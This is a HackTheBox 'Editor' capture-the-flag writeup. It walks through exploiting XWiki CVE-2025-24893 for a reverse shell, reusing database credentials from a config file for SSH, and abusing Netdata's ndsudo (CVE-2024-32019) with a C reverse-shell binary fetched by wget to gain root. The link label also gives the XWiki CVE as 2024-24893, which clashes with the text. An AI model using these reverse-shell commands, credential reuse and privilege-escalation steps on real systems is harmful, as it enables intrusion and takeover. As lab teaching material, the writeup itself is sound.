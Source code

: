 ## HackTheBox – [Editor](https://app.hackthebox.com/machines/Editor) (Writeup)

## Scanning
We begin with a full TCP scan:

```python
nmap -sC -sV -p- -T4 10.10.11.80
```
Open ports:

* 80/tcp – HTTP
* 22/tcp – SSH
* 8080/tcp – HTTP

The website uses virtual hosts, so we add entries to ```/etc/hosts```:

```python
echo "10.10.11.80 wiki.editor.htb editor.htb" | sudo tee -a /etc/hosts
```
## Initial Foothold

Browsing ```wiki.editor.htb:8080``` shows a documentation page powered by XWiki.

At the bottom, we see the version: `XWiki Debian 15.10.8`.

A quick search reveals a known vulnerability: `CVE-2025-24893`.

We exploit it to gain RCE and establish a reverse shell:

[CVE-2024-24893](https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2024-24893.py)

```python
nc -lvnp 9001
python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.10.10 9001 -e /bin/bash'
```
We successfully get a shell as the xwiki user.

## Privilege Escalation – User

Checking `/home`, we find a user oliver.

After some enumeration, an interesting file appears at:

```python
/etc/xwiki/hibernate.cfg.xml
```
Inside we find database credentials:

```python
<property name="hibernate.connection.username">xwiki</property>
<property name="hibernate.connection.password">*********</property>
```
We reuse these credentials for SSH:

```python
ssh oliver@10.10.11.80
```
Now we can read ```user.txt```.

## Privilege Escalation – Root

```sudo -l``` doesn’t give anything useful, so we continue manual enumeration.

Running ```netstat -ntul``` reveals Netdata listening on a local port.

We port-forward it:

```python
ssh -L 19999:127.0.0.1:19999 oliver@10.10.11.80
```
Opening ```http://127.0.0.1:19999``` on our machine, we see an outdated `Netdata` version vulnerable to ```CVE-2024-32019```.

We use a public PoC exploit in C:

```python
#include <unistd.h>  // for setuid, setgid, execl
#include <stddef.h>  // for NULL

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/YOUR IP/YOUR PORT 0>&1", NULL);
    return 0;
}
```
```python
x86_64-linux-gnu-gcc -o nvme exploit.c -static
```
Transfer the binary to the target:

```python
# Attacker
python3 -m http.server

# Target
wget http://10.10.10.10:8000/nvme
chmod +x nvme
```
Set up a listener:
```python
nc -lvnp 4444
```
Execute the exploit via the vulnerable Netdata plugin:

```python
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
We pop a root shell and retrieve root.txt.
